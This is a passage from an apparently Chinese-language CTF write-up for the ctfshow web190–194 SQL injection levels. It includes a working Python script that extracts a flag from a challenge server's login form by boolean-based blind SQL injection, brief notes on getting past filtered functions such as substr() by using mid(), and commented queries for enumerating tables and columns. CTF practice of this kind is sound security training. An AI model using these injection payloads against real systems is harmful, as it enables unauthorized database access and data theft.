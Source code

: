 ![20220725214826](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220725214826.png)

脚本

```python
import time
import requests

dicts='{0123456789qwertyuiopasdfghjklzxcvbnm-_,}'

flag = ''

for i in range(1,64):
    for s in dicts:
        #payload = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
        #payload = 'select group_concat(column_name) from information_schema.columns where table_name=\'ctfshow_fl0g\' and table_schema=database()'
        payload = 'select f1ag from ctfshow_fl0g'
        t_payload = 'admin\' and if(substr(({}),{},1)=\'{}\',1,0)#'.format(payload,i,s)
        res = requests.post('http://3094f582-d700-4861-bdb7-ad89b2b8efc0.challenge.ctf.show/api/index.php',data={'username':t_payload,'password':'1'})
        if res.text.find('5bc6') != -1:
            flag += s
            print(flag)
            time.sleep(2)
            break
```

## web191

同上, 但是 `ascii()` 被过滤了

不过自己的脚本一直没怎么用二分法...

脚本同上

## web192

同上, 又过滤了 `ord()` `hex()`

脚本同上

## web193

同上, 过滤了 `substr()`

改成 `mid()` 即可

表名换成了 `ctfshow_flxg`

## web194
